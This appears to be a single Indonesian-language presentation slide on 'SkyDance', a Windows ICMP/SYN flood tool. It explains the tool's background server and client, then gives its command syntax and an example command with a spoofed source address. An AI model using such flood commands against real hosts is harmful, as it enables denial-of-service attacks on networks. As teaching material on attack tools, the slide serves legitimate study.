

# Windows ICMP/SYN Flood
SkyDance: terdiri dari dua komponen
Server dijalankan di background
server.exe
Client memberikan perintah ke server

client.exe server password kill type target srcIP
client.exe 192.168.1.10 nerv kill icmp 192.168.1.1 10.10.10.10